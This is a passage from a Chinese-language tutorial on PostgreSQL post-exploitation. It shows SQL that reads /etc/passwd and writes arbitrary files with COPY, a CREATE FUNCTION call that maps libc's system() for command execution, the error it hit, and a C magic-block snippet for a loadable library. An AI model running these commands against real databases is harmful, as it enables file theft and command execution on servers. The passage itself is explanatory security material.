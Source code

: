 ```  
DROP TABLE wooyun;  
CREATE TABLE wooyun (t TEXT);  
COPY wooyun(t) FROM '/etc/passwd';  
SELECT * FROM wooyun;  
```  
  
![pic](20180201_03_pic_005.jpg)  
  
d）写入文件  
  
```  
DROP TABLE wooyun;  
CREATE TABLE wooyun (t TEXT);  
INSERT INTO wooyun(t) VALUES ('hello wooyun');  
COPY wooyun(t) TO '/tmp/wooyun';  
```  
  
![pic](20180201_03_pic_006.jpg)  
  
读一下看看是否存在  
  
![pic](20180201_03_pic_007.jpg)  
  
Bingo~  
  
### 2，命令执行  
  
这里大概有三种方式  
  
a）利用 libc 中的 system() 函数  
  
很多文章会让我们添加一个到libc库的自定义功能函数  
  
```  
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT;  
```  
  
但是返回错误  
  
```  
Error : ERROR:  incompatible library "/lib64/libc.so.6": missing magic block  
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.  
```  
  
这是因为当PostgreSQL加载外部动态库的时候，会检查MAGIC DATA，如果没有这个函数（Pg_magic_func），PostgreSQL认为这个动态库不是PostgreSQL可以使用的动态库。具体逻辑请看 src/backend/utils/fmgr/dfmgr.c 中定义的 internal_load_library 函数源代码。  
  
这样一来系统自带的可利用的库默认我不再允许动态加载，所以此路不通（也许低版本走的通，但我手里这个不行）。  
  
给一个 pg_magic_func 代码样例：  
  
```  
extern PGDLLEXPORT const Pg_magic_struct * Pg_magic_func(void);  
const Pg_magic_struct *  
pg_magic_func(void)  
{  
static const Pg_magic_struct Pg_magic_data = PG_MODULE_MAGIC_DATA;  
return &Pg_magic_data;  
}  
```  
  